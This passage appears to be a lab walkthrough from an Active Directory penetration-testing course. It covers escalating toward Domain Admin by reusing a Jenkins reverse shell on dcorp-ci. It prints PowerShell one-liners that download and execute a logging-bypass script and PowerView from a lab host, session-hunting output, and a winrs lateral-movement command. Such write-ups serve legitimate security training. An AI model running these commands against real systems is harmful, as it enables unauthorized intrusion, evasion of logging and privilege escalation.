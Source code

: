 <figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

```powershell
HostName       UserSession                Access
--------       -----------                ------
dcorp-adminsrv dcorp\appadmin               True
dcorp-adminsrv dcorp\srvadmin               True
dcorp-adminsrv dcorp\websvc                 True
```

### 2 - Compromise the machine and escalate privileges to Domain Admin by abusing reverse shell on dcorp-ci

As we see into [Learning Object 5](5-learning-object-5.md) we can obtain a reverse shell on dcorp-ci using through a vulnerability of Jenkins.

After repeating the same steps, we got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins, transfer program present into Tools (PowerView, Loader, Invoke-PowerShellTcp, SafetyKatz and sbloggingbypass.txt):

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Starting to download the following file/programs, and execute Find-DomainUserLocation

```powershell
iex (iwr http://172.16.100.67/sbloggingbypass.txt -UseBasicParsing)
```

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.67/PowerView.ps1'))
Find-DomainUserLocation
```

```powershell
UserDomain      : DCORP-CI
UserName        : Administrator
ComputerName    : dcorp-ci.dollarcorp.moneycorp.local
IPAddress       : 172.16.3.11
SessionFrom     :
SessionFromName :
LocalAdmin      :

UserDomain      : dcorp
UserName        : svcadmin
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

There is a domain admin session on dcorp-mgmt server, we can abuse this using winrs:

```powershell
winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```
